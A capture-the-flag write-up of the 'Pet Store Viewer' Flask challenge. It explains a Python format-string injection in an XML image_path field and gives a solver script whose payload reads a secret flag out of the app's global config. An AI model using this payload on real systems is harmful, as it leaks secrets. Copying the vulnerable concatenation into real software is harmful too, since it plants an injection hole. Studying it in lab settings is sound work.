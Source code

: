 # Pet Store Viewer [8 Solves]

## Description

> Explore our online pet store for adorable companions – from playful kittens to charming chickens. Find your perfect pet today. Buy now and bring home a new friend!
>
> Connect here: `13.215.209.185:8222`
>
> Attachments: petstore.zip

## Source Code

<details><summary>Attachment file tree</summary>

```console
$ tree app
app
├── build-docker.sh
├── challenges
│   ├── app.py
│   ├── requirements.txt
│   ├── static
│   │   ├── css
│   │   │   ├── style.css
│   │   │   └── view.css
│   │   ├── images
│   │   │   ├── oops.jpg
│   │   │   ├── pet01.webp
│   │   │   ├── pet02.webp
│   │   │   ├── pet03.webp
│   │   │   ├── pet04.webp
│   │   │   ├── pet05.webp
│   │   │   ├── pet06.webp
│   │   │   ├── pet07.webp
│   │   │   ├── pet08.webp
│   │   │   ├── pet09.webp
│   │   │   └── pet10.webp
│   │   └── js
│   │       └── index.js
│   └── templates
│       ├── error.html
│       ├── index.html
│       └── view.html
├── Dockerfile
├── flag.txt
└── store.xml

7 directories, 23 files
```

</details>

## Flag

wgmy{74ba870f1a4873a3ba238e0bf6fa9027}

## TL;DR

- Python Format String Placeholder Injection

## Solution

![pet_store_viewer.png](img/pet_store_viewer.png)

![pet_store_viewer2.png](img/pet_store_viewer2.png)

Accessing the given URL to view the Web application, it had a functionality that the URL path `/` is to display a list of pets and the URL path `/view` is to show details of a specific pet.
In the `/view` path, I found that XML was input using a query parameter named `xml`.

In this challenge, since the source code is provided, I will take a look.

```python
# app.py

from flask import Flask, render_template, url_for ,request
import os
import defusedxml.ElementTree as ET

app = Flask(__name__)

CONFIG = {
    "SECRET_KEY" : os.urandom(24),
    "FLAG" : open("/flag.txt").read()
}
```

I extracted the provided attachment and examined the `app.py` file, it uses Python Flask.
Additionally, I found that the flag is stored in the Python `CONFIG` dict.

The application has two endpoints: [GET] `/` and [GET] `/view`. I will take a closer look at the `/view` endpoint.

```python
# app.py

class PetDetails:
    def __init__(self, name, price, description, image_path, gender, size):
        self.name = name
        self.price = price
        self.description = description
        self.image_path = image_path
        self.gender = gender
        self.size = size

def parse_xml(xml):
    try:
        tree = ET.fromstring(xml)
        name = tree.find("item")[0].text
        price = float(tree.find("item")[1].text)
        description = tree.find("item")[2].text
        image_path = tree.find("item")[3].text
        gender = tree.find("item")[4].text
        size = tree.find("item")[5].text
        details = PetDetails(name, price, description, image_path, gender, size)
        app.logger.info(globals())
        combined_items = (
            "{0.name};"
            + str(details.price)
            + ";{0.description};"
            + details.image_path
            + ";{0.gender};{0.size}"
        ).format(details)
        app.logger.info("[+] debug " + "=" * 10)
        app.logger.info(combined_items)
        app.logger.info("[+] debug end" + "=" * 10)
        return [combined_items]
    except Exception as e:
        app.logger.info("Malformed xml, skipping")
        app.logger.info(traceback.format_exc())
        return []

@app.route("/view")
def view():
    xml = request.args.get("xml")
    list_results = parse_xml(xml)
    if list_results:
        items = list_results[0].split(";")
        return render_template("view.html", value=items)
    else:
        return render_template("error.html")
```

On the server side, it parses the XML string sent by the client in the query parameter named `xml` using the `parse_xml` function.
Then, It uses the parsed information to generate and return HTML.

```python
        combined_items = (
            "{0.name};"
            + str(details.price)
            + ";{0.description};"
            + details.image_path  # here
            + ";{0.gender};{0.size}"
        ).format(details)
```

I found that the `details.image_path` is being concatenated without using a Format String placeholder like `{0.name}`, and it's directly concatenated.
Since there's potential for Format String injection here, it seems possible to get the `CONFIG` dictionary.

Useful references for Python format string:

- [Vulnerability in str.format() in Python - GeeksforGeeks](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- [Be Careful with Python's New-Style String Format \| Armin Ronacher's Thoughts and Writings](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/)

I implemented `solver.py` to send an XML string that get the flag from the `CONFIG` dict.

```python
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False


XML = """\
<?xml version="1.0" encoding="utf-8"?>
<store>
    <item>
        <name>value0</name>
        <price>0.1</price>
        <description>value2</description>
        <image_path>{0.__init__.__globals__[CONFIG][FLAG]}</image_path>
        <gender>value4</gender>
        <size>value5</size>
    </item>
</store>
""".strip()

BASE_URL = "http://localhost:8222"
# BASE_URL = "http://13.229.222.125:33099"


def main():
    res = s.get(
        f"{BASE_URL}/view",
        params={"xml": XML.replace("\n", "")},
    )

    print(res.text)


if __name__ == "__main__":
    main()
```

Result

```console
$ python3 solver.py
...
            <img src="/static/images/wgmy%7B74ba870f1a4873a3ba238e0bf6fa9027%7D" alt="Item Image">
```

I executed solver.py against the Challenge server and could get the flag.
The output is URL-encoded, with `{` represented as `%7B`.
Therefore, decoding this URL-encoded string, the flag is wgmy{74ba870f1a4873a3ba238e0bf6fa9027}.
